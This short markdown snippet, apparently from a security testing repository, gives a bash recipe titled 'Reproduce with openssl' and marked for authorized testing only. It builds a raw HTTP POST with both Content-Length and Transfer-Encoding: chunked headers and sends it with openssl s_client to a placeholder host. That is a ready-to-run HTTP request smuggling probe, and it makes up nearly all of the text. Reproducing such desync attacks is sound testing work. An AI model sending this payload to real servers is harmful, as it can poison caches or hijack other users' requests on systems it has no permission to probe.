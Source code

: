 # Reproduce with openssl

> For authorized testing only.

```bash
HOST=example.com
PORT=443
REQ=$'POST / HTTP/1.1\r\nHost: '"$HOST"$'\r\nContent-Length: 6\r\nTransfer-Encoding: chunked\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\n0\r\n\r\nX=1'
printf "%b" "$REQ" | openssl s_client -quiet -connect "$HOST:$PORT"
